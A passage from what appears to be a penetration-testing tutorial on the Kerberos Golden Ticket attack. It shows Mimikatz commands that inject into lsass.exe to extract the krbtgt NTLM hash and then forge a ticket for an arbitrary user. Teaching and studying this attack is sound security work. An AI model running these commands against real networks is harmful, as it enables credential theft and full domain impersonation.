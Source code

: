 Then use the following command to inject into the lsass.exe process to extract the NTLM hash of this account:

`lsadump::lsa /inject /name:krbtgt`

![lsainject](images/lsa_inject_krbtgt.png)

### 3. Generate the Golden ticket:

After you have successfully retrieved all the pre-requisite information for generating the golden ticket, you can use the kerberos module in the Mimikatz and the golden function. You can use the following command to generate the golden ticket for any fake user of your choice:

`kerberos::golden /user:<your_fake_username> /domain:<domain_name> /sid:<sid_of_the_domain> /krbtgt:<ntlm_hash_of_the_krbtgt_account> /ptt`

